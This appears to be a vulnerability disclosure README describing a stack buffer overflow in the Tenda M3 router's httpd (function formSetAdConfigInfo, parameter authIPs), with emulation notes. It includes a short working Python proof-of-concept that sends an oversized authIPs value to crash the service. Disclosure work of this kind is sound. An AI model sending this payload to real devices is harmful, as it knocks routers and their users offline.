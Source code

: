 # Tenda M3 contains Stack  Overflow Vulnerability

## overview

- type: stack overflow vulnerability

- supplier: Tenda https://www.tenda.com 

- product: TendaM3 https://www.tenda.com.cn/product/M3.html

- firmware download:   https://www.tenda.com.cn/download/detail-3133.html

- affect version: TendaM3 v1.0.0.12(4856)

## Description

### 1. Vulnerability Details

the `httpd` in directory `/bin` has a stack buffer overflow. The vunlerability is in fucntion `formSetAdConfigInfo` 

![image-20220819230539184](readme.assets/image-20220819230539184.png)

In this function, is copies POST parameter `authIPs` to stack buffer without checking its length, causing a stack buffer overflow vulnerability. 

### 2. Recurring loopholes and POC

use qemu-arm-static to run the `httpd`, we need to patch it before run. 

- in `main` function, The `ConnectCfm` function didn’t work properly, so I patched it to `NOP` 
- The `R7WebsSecurityHandler` function is used for permission control, and I've modified it to access URLs that can only be accessed after login

poc of DOS(deny of service)

```python
import requests

data = {
    "authIPs": "a"*0x1000
}
cookies = {
    "user": "admin"
}
res = requests.post("http://127.0.0.1/goform/setAdConfigInfo", data=data, cookies=cookies)
print(res.content)
```

![image-20220819230350775](readme.assets/image-20220819230350775.png)

![image-20220819230438042](readme.assets/image-20220819230438042.png)

![image-20220819230449739](readme.assets/image-20220819230449739.png)